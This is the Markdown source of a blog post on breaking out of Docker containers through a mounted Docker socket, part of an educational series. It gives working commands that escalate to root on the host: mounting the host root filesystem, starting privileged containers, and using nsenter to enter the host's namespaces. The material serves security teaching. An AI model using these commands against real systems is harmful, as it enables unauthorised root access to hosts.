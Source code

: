 ```yaml
---
title: "Container Breakouts – Part 3: Docker Socket"
date: 2020-06-29T11:56:35+02:00
draft: true
tags:
- docker
- breakout
- security
---
```



This post is part of a series and shows container breakout techniques that can be performed if a container is started with a mounted Docker socket inside the container.

<!--more-->

The following posts are part of the series:
- [Part 1: Access to root directory of the Host](../container-breakouts-part1)
- [Part 2: Privileged Container](../container-breakouts-part2)
- Part 3: Docker Socket

## Intro

You may have read for certain container deployments that it is absolutely necessary to link the socket into the container, but what are the implications? That is exactly what we are going to discuss in the last blog post in the series about container breakouts. 

## Docker Socket

You know, every time you have **access to the Docker Socket** (default location: `/var/run/docker.sock`) it **means** that you are **root on the host**. Here should be mentioned that it might be the case that you are not root on the system, if docker is used root-less. Some containerized applications may need access to the socket, e.g., for observation or local system management.

You have read correctly, local system management. As soon you have **access to** the **socket**, you can **manage** the local **system**. Okay, first at all, you can manage containers and these containers can afterward manage the system. 

So if you want to escalate from the container to the system, you can **interact** with the **Docker Socket manually or** just simple **install Docker** (on ubuntu: `sudo apt update && sudo apt install -y docker.io`) in the container. What the next step? Exactly, start a further container. 
### Known Techniques

First at all I will start with a short re-cap. We can start containers with the root directory mounted into the container. To do so, one must run the following command and continue reading with [Part 1](../container-breakouts-part1) of this series.

```
# docker run --rm -it -v/:/hostfs ubuntu bash
root@95bc051624b9:/# 
``` 

The alternative would be to start a privileged container. This privileged container can interact with the kernel without limitations. To do so, one must run the following command and continue reading with [Part 2](../container-breakouts-part2) of this series.

```
# docker run --rm --privileged -it ubuntu bash   
root@aad2c9378900:/#
```

These steps are a bit obvious, but explain what hove done wrong in the other cases

### Dropping Namespace Boundaries

As we can take from the amazing artwork by [Julia Evans](https://twitter.com/b0rk) and we already know that containerization is done by the use of Linux namespaces (details can be found in the man page `man namespaces`).
 
![container namespaces](../../images/container-ns.jpeg " Container namespaces by [Julia Evans](https://twitter.com/b0rk)")

To get details about which namespace is assigned to a process, we can take this information out of the `proc` filesystem (for each process `ls -l /proc/self/ns/`). The following namespaces are created for the start of a new container in the default configuration:
- inter process communication (`ipc`)
- mount (`mnt`)
- network (`net`)
- process id (`pid`)
- hostname (`uts`)

The [CIS Docker Benchmark](https://www.cisecurity.org/benchmark/docker/) recommends as well to configure docker in a way to spawn an own user namespace (`uid`).

If we want to break out of the container to get full system access we **start** a new **container with all (possible) namespaces** from the host via the docker socket. Only the `mnt` namespace cannot be set at container startup. Since we start our container **privileged**, there is no seccomp filter in place and we can use `nsenter` to **switch** to **mount namespace** of the `init` process.

```
# ls -l /proc/self/ns/
total 0
lrwxrwxrwx 1 user user 0 Jul 15 09:02 cgroup -> 'cgroup:[4026531835]'
lrwxrwxrwx 1 user user 0 Jul 15 09:02 ipc -> 'ipc:[4026532376]'
lrwxrwxrwx 1 user user 0 Jul 15 09:02 mnt -> 'mnt:[4026532374]'
lrwxrwxrwx 1 user user 0 Jul 15 09:02 net -> 'net:[4026532379]'
lrwxrwxrwx 1 user user 0 Jul 15 09:02 pid -> 'pid:[4026532377]'
lrwxrwxrwx 1 user user 0 Jul 15 09:02 pid_for_children -> 'pid:[4026532377]'
lrwxrwxrwx 1 user user 0 Jul 15 09:02 user -> 'user:[4026531837]'
lrwxrwxrwx 1 user user 0 Jul 15 09:02 uts -> 'uts:[4026532375]'

# docker run --rm -it --privileged --network host --pid host --ipc host --uts host ubuntu  bash

root@arch:/# nsenter -t 1 -m

[root@arch /]# ls -l /proc/self/ns/
total 0
lrwxrwxrwx 1 root root 0 15. Jul 11:34 cgroup -> 'cgroup:[4026531835]'
lrwxrwxrwx 1 root root 0 15. Jul 11:34 ipc -> 'ipc:[4026531839]'
lrwxrwxrwx 1 root root 0 15. Jul 11:34 mnt -> 'mnt:[4026531840]'
lrwxrwxrwx 1 root root 0 15. Jul 11:34 net -> 'net:[4026531992]'
lrwxrwxrwx 1 root root 0 15. Jul 11:34 pid -> 'pid:[4026531836]'
lrwxrwxrwx 1 root root 0 15. Jul 11:34 pid_for_children -> 'pid:[4026531836]'
lrwxrwxrwx 1 root root 0 15. Jul 11:34 user -> 'user:[4026531837]'
lrwxrwxrwx 1 root root 0 15. Jul 11:34 uts -> 'uts:[4026531838]'

[root@arch /]# ls -l /proc/1/ns/
total 0
lrwxrwxrwx 1 root root 0 15. Jul 11:03 cgroup -> 'cgroup:[4026531835]'
lrwxrwxrwx 1 root root 0 15. Jul 11:03 ipc -> 'ipc:[4026531839]'
lrwxrwxrwx 1 root root 0 15. Jul 11:03 mnt -> 'mnt:[4026531840]'
lrwxrwxrwx 1 root root 0 15. Jul 11:03 net -> 'net:[4026531992]'
lrwxrwxrwx 1 root root 0 15. Jul 11:03 pid -> 'pid:[4026531836]'
lrwxrwxrwx 1 root root 0 15. Jul 11:03 pid_for_children -> 'pid:[4026531836]'
lrwxrwxrwx 1 root root 0 15. Jul 11:03 user -> 'user:[4026531837]'
lrwxrwxrwx 1 root root 0 15. Jul 11:03 uts -> 'uts:[4026531838]'

```

We can now behave as a user `root` with full access to the host system. 

## Conclusion

The final breakout technique was a bit more detailed about what docker does under the hood to secure containers. But, if you are root and can interact with the socket, there are no limitations. The last approach is the most OpSec-safe approach for easy container break out techniques.  

The listed container breakouts are in my humble opinion the most relevant one. The list is for sure not complete and as soon as I identify another important one, I will update, extend, and re-organize the content. 

I hope you enjoyed my little series and I am looking forward to if one of you has some ideas for extending container breakouts.

## Remarks

The list of proposed techniques is not complete and is mainly based on insecure container management. To name a few previous container breakouts that are based on vulnerabilities in docker here is a list to get an idea:

- [CVE-2019-5736: Escape from Docker and Kubernetes containers to root on host](https://blog.dragonsector.pl/2019/02/cve-2019-5736-escape-from-docker-and.html)
- [Docker Patched the Most Severe Copy Vulnerability to Date With CVE-2019-14271](https://unit42.paloaltonetworks.com/docker-patched-the-most-severe-copy-vulnerability-to-date-with-cve-2019-14271/)

At the end of writing, I realized that [Jesse Hertz](mailto:jesse.hertz@nccgroup.trust) from [NCC Group](https://www.nccgroup.com/) has released [Abusing Privileged and Unprivileged Linux Containers]( https://www.nccgroup.com/globalassets/our-research/us/whitepapers/2016/june/container_whitepaper.pdf) which is an even more comprehensive collection to breakout of a container. A collection of tools that test for container breakouts have been collected by [Clint Gibler](https://twitter.com/clintgibler) in [Container Security – A collection of container security resources and tools, organized by category](https://tldrsec.com/blog/container-security/).

The focus of this series was on the operating system level. Nowadays containers are managed and orchestrated in a cluster environment by [Kubernetes](https://kubernetes.io/) or [Nomad](https://www.nomadproject.io/) to name at least two. Even the whole cloud stack is kept out of this series. These two areas will be addressed in another series.

## Final words

Since I am only a consumer of already existing research I want to give out a big thanks for sharing the knowledge that I have consumed in the past years from:

- [Brad Geesaman](https://twitter.com/bradgeesaman)
- [Chris Le Roy](https://github.com/brompwnie)
- [Clint Gibler](https://twitter.com/clintgibler) 
- [Duffie Cooley](https://twitter.com/mauilion)
- [Ian Coldwater](https://twitter.com/IanColdwater)
- [Jessie Frazelle](https://twitter.com/jessfraz)
- [Mark Manning](https://twitter.com/antitree) 
- [Matthias Luft](https://twitter.com/uchi_mata) 
- [Rory McCune](https://twitter.com/raesene)

To name a few – you are awesome – please continue !!


